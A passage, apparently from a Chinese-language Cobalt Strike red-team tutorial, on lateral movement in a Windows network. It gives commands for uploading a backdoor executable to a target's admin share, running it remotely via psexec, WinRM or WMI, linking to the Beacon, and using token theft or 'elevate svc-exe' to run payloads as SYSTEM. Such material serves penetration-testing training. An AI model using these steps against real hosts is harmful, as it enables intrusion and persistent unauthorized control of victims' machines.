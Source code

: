     ```
    cd \\host\C$\windows\temp
    upload /path/file.exe 
    ```

7.  在目标主机上运行这个后门

    ```
    # 查看在 Cobalt Strike 中注册的远程执行模块的列表
    remote-exec
    # 在一个远程主机上执行命令
    # psexec、winrm（powershell）、wmi（powershell）
    remote-exec [method] [target] [command] 
    ```

    ![](img/cebb8fb14663ef8816713efb1f8f827d.png)
8.  通过后门进行控制
    成功执行后可以通过`link`和`connect`连接到 Beacon

## 0x06 注意事项

1.  当你第一次连接到 session 时，你的认证信息可能会不起作用，需要使用`make_token`来复制你的 access token 填充至凭据中。
2.  如果当你在进行 make_token 或者 steal_token 时，你不能够运行进程，或者你看不到输出结果时，可以使用`inject`迁移到另一个进程中进行执行，或者使用`elevate svc-exe`来作为系统运行 payload。

